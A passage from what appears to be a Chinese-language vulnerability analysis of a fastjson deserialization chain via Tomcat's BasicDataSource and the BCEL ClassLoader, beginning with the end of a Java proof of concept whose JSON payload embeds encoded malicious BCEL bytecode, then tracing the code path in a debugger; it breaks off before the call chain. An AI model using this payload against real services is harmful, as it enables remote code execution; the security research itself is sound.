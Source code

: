 ```java
                        + "               \"driverClassName\": \"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AePMO$C1$Q$7d$85$95$85u$B$F$fc$fe$c2$93h$a2$7b$f1$86$f1$a0$c1$8b$ebG$c4$e8$b9$94$G$8b$cb$96$y$c5$f8$8f$3c$7bQ$e3$c1$l$e0$8f2NW$a3$s6$e9L$e6$cd$7bo$a6$7d$ffx$7d$D$b0$8bu$P$$j$kf0$9b$c7$9c$cd$f3$$$W$5c$y$baXb$c8$ed$a9X$99$7d$86lc$f3$8a$c19$d4$5d$c9P$OU$yO$c7$83$8eL$$y$t$o$a4$Sj$c1$a3$x$9e$u$5b$7f$83$8e$b9Q$p$86Z$u$f4$m88l$85AW$Ot$d0$baSQ$93$n$bf$t$a2o$f3b$dbpq$7b$c2$87$a9$90$c63xm$3dN$84$3cR$d6$a8$60$r$3b$7d$7e$c7$7d$e4Qp$b1$ecc$F$ab4V$Pe$5c$df$e6u$g$$$c6$R7$3a$f1$b1$86$3aC$d5$b2$83$88$c7$bd$a0u$_$e4$d0$u$j$T$ff$ff$s$MS$bf$d4$b3N_$K$c30$fd$L$5d$8cc$a3$G$b4$84$d7$93$e6$a7$98il$86$ff8$f4$uG$deK$c1$b0$d1$f8$d3m$9bD$c5$bd$e6_$c1y$a2$85$i$8d$9aXG$8e$be$df$9e$M$98$7d$hE$8f$aa$802$a3$3c$b1$f5$M$f6$98$b6$t$v$e6R0$L$9f$a2$ffE$40$R$r$cay$94$7f$c4$c7$a9$ZPzA$a6$92$7d$82s$fd$A$e7$f81$c5$K$a4$9b$m$H$ebV$a2l$3d$L$b4B1$ed$d89$c0$U$5d$X$99$d0$c54HTI$e1$ea$t$Y$fc$8f$F2$C$A$A\"\n"
                        + "       }\n"
                        + "   }:\"xxx\"\n"
                        + "}";
        JSON.parse(payload);
    }
}
```

### 3.3 org.apache.tomcat.dbcp.dbcp2.BasicDataSource 分析

​	如果在解析payload这里下断，会在fastjson的流程走很长一段，不是分析的目的。![image-20220329095440531](http://imagesolo.oss-cn-beijing.aliyuncs.com/2022-03-29-015441.png)

​	所以找到`org.apache.tomcat.dbcp.dbcp2.BasicDataSource`这个类，在`getConnection`z这个方法下断开始分析：

![image-20220329095725002](http://imagesolo.oss-cn-beijing.aliyuncs.com/2022-03-29-015725.png)

在Poc里Debug，在这里就直接断下来了：

`getConnect`:获取与数据库的连接

![image-20220329100030618](http://imagesolo.oss-cn-beijing.aliyuncs.com/2022-03-29-020031.png)

走一步，走到`createDataSource`方法，然后跟进：

![image-20220329100732981](http://imagesolo.oss-cn-beijing.aliyuncs.com/2022-03-29-020733.png)

走到这一步发现，会有一个判断`dataSource`是否为null，这里结果肯定返回了null，所以往下走到了`createConnectionFactory`方法：

![image-20220329100923758](http://imagesolo.oss-cn-beijing.aliyuncs.com/2022-03-29-020923.png)

进入`createConnectionFactory`方法，首先会获取`classloader`,如果`classloader`不为null，则通过反射执行恶意代码：

![image-20220329103432337](../../Library/Application%20Support/typora-user-images/image-20220329103432337.png)

![image-20220329104513574](http://imagesolo.oss-cn-beijing.aliyuncs.com/2022-03-29-024514.png)

​	可以看到这里是`Class.forName`将类加载进来，并且设置了`initialize`参数为true【其实就是告诉Java虚拟机是否执⾏”类初始化而staic就是在类初始化加载的】而`Class.forName`方法实际上也是调用的`CLassLoader` 来实现的。所以1和3都是可控的，这里`ClassLoader`会直接从`classname`中提取Class的字节码。那么我们可以设置`driverClassLoader`为`com.sun.org.apache.bcel.internal.util.ClassLoader`,设置`driverClassName为恶意的BCEL格式的字节码。	

​	所以整个调用链：

